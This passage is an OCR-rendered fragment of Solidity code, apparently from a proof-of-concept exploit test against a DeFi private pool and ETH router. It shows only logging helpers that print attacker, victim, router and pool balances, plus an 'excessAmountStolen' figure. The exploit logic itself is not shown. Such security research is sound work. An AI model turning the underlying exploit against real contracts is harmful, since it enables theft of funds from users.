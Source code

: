 ```solidity
                    Strings.toString(attacker.balance / 1e18),
                    ".",
                    Strings.toString((attacker.balance % 1e18) / 1e15)
                ),
                " ETH"
            )
        );
        console.log(
            string.concat(
                " | Victim balance:              ",
                string.concat(
                    Strings.toString(address(victim).balance / 1e18),
                    ".",
                    Strings.toString((address(victim).balance % 1e18) / 1e15)
                ),
                " ETH"
            )
        );
        console.log(
            string.concat(
                " | Router balance:              ",
                string.concat(
                    Strings.toString(address(ethRouter).balance / 1e18),
                    ".",
                    Strings.toString((address(ethRouter).balance % 1e18) / 1e15)
                ),
                " ETH"
            )
        );
        console.log(
            string.concat(
                " | Pool balance:                ",
                string.concat(
                    Strings.toString(address(privatePool).balance / 1e18),
                    ".",
                    Strings.toString(
                        (address(privatePool).balance % 1e18) / 1e15
                    )
                ),
                " ETH"
            )
        );
        console.log("============================================");
    }

    /**
     * @notice Logs the extra data to show the exploit status in the terminal.
     */
    function _logExtraData(
        uint256 amountETHPaid,
        uint256 royaltyPaid,
        uint256 excessAmountStolen
    ) internal view {
        console.log("");
        console.log("============================================");
        console.log(" Data");
        console.log("============================================");
        console.log(
            string.concat(
                " | Amount ETH paid for NFT:     ",
                string.concat(
                    Strings.toString((amountETHPaid - royaltyPaid) / 1e18),
                    ".",
```